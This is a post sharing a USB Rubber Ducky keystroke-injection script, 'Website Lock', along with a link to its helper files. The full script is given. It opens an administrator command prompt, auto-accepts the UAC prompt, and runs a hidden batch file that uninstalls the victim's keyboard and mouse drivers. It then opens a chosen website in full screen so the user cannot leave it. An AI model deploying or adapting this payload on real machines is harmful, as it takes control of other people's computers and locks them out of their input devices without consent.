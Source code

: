 The explanation is in the code.
Link to other files: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0 (same link as the one in the code)

Code:
	DELAY 100
	REM Title: Website Lock
        REM Author: Audiack
	REM Target Ducky Encoder: 2.6.2
	REM Target OS: Windows 7 (32 and 64 bit), maybe older/newer windows versions. Haven't tested it on any other than 7.
	REM Description: Plays off of Aprizm's script to open a website, but it also disables the mouse and keyboard so the user can't leave the website.
	REM Info:
	REM     The user can easily unplug and re-plug in the keyboard/mouse to reinstall the drivers get them working again. 
	REM     This requires the user to plug a USB drive in with some extra files BEFORE the ducky is plugged in.
	REM     Make sure the files are in the root of a drive called DUCKY.
	REM     Twin duck works well with this. It is what I used when I was testing it. 
	REM File Descriptions:
	REM     The devcon32 & devcon64 are the files used to uninstall the keyboard and mouse drivers (for the two architectures).
	REM     The invisible.vbs is used to run the batch script invisibly after the video is in fullscreen.
	REM     The TheRealAnnoyance.bat is the batch script run in the background that disables their mouse & keyboard.
	REM     The WebsiteLink.txt contains the website link. The user can change this as desired. Make sure there are no spaces and there is only a single link.
	DELAY 3000
	CTRL ESC
	DELAY 700
	STRING cmd
	CTRL-SHIFT ENTER
	DELAY 3000
	ALT Y
	DELAY 700

	STRING for /f %d in ('wmic.exe volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%d
	ENTER
	DELAY 1200
	STRING cd /d %myd%
	ENTER

	DELAY 1000
	STRING type "WebsiteLink.txt" | clip
	ENTER
	DELAY 100
	STRING C:/windows/System32/wscript.exe invisible.vbs TheRealAnnoyance.bat
	ENTER
	DELAY 400

	REM Aprizm's code for youtube roller begins here. I changed the link to a ctrl-v so that the ducky pastes the contents of WebsiteLink.txt hence line 20: 'type "WebsiteLink.txt" | clip'
	REM Title: Youtube Roller
	REM Author: Aprizm
	REM Description: This scripts opens a youtube video in fullscreen and puts the browser in fullscreen
	REM Option : if you change the link of the video dont forget to change the watch with watch_popup to have it fullscreen also add &loop=1 at the end to make it loop forever
	DELAY 200
	GUI r
	DELAY 200
	CTRL V
	ENTER
	DELAY 1000
	F11